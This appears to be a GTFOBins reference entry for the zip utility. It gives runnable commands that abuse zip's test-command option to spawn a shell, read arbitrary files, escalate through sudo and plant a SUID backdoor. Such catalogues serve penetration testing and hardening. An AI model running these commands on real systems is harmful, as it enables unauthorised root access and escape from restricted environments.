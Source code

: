 # GTFOBin: zip

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file-to-read
TF=$(mktemp -u)
zip $TF $LFILE
unzip -p $TF
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which zip) .

TF=$(mktemp -u)
./zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```